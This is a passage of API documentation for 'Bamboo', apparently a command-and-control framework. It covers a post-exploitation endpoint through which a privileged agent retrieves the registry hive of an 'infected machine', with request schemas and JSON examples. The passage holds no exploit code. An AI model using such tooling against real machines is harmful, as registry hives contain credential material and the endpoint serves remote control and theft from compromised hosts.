 ```
{
    "command": "post exploit",
    "method": "enumerate",
    "handler": "bambooUser"
}
```


<br>

## SSS_Retrieve

Retrieve registry hive of infected machine

### Endpoint

```
POST /postexp/reteive
```

### Description

Bamboo Client calls this endpoint when they want to retrieve the registry hive of the infected machine remotely using the specified Bamboo Agent. This command can only be called by Bamboo Agent with `High` or `System` level privilege. If the requirements are met, Bamboo teamserver will send a WebSocket broadcast to the Bamboo Agent specified and command it to start retrieving the registry hive of the infected machine.

### Request schema

<h4>Request body</h4>

|Field|Type|Description|
|-----|----|-----------|
|username|String|Username of user|
|agent_identifier|String|Identifier of Bamboo Agent|
|method|String|Tool used (enumerate)|
|priv_lvl|String|Privilege level of Bamboo Agent|

### Request example

```
{
    "username": "bambooUser",
    "agent_identifier": "5zrire9a",
    "method": "enum",
    "priv_lvl": "System"
}
```

### Response schema
